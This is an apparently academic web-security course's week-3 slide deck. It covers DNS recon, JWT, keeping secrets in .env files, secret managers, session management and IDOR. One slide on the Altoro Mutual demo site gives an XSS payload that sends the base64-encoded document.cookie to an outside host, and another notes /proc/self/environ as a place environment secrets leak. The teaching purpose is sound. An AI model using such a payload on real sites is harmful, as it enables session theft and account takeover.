 ```yaml
---
title: "Week 3 - Auth and IAM"
layout: "bundle"
outputs: ["Reveal"]
date: 2023-02-24T02:57:21+10:00
---
```


{{< slide class="center" >}}

## Week 3

---

## DNS Recon Recap

* Walkthrough
  * [Sublist3r](https://github.com/aboul3la/Sublist3r)
  * [Word List](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

---

## Lecture Review

* Build a Flask app
* Python semantics, `__name__`, `__main__`, `__dir__`
* JWT

---

## More on JWT

* Anatomy of a JWT token
* What should be in a JWT token
* Pros and Cons
* Store secrets in a `.env`?

---

# DevOps, DevSecOps, DevSec..Oops..

{{% section %}}

More on this in later weeks

* `.env` + `.gitignore`
* Scoped env command

---

If it's in the environment, it's accessible to the entire process.  
Even if you unset it in the code >:(

* `/proc/self/environ`

{{% /section %}}

---

> Alternatives

* External data sources (config servers)
  * i.e. AWS Parameter Store
  * i.e. Google Secrets Manager
  * i.e. HashiCorp Vault
  * i.e. Apple KeyChain

---

## Back to Altoro Mutual

jk the demo did work I was just dumb

> 👉 Login as admin first 👈

```
<script>fetch("https://[...]/?v="+btoa(document.cookie))</script>aaa
```

---

## How to be a script kiddie

* Python + `requests`
* Node.js + `node-fetch`
* JavaScript + `fetch`
* JavaScript + `XMLHTTPRequest`
* etc

---

## Session Management

* Last week, auth via cookies
* What does it mean to "log out"

---

## Learning HTTP Responses

* 2XX - Success
* 3XX - Redirect
* 4XX - Client Error
  * [418](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/418)
  * [451](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/451)
* 5XX - Server Error

---

# IDOR

> Insecure Direct Object Reference


> 🚪🚪

---

## Logistics

Midterm Exam, Reports

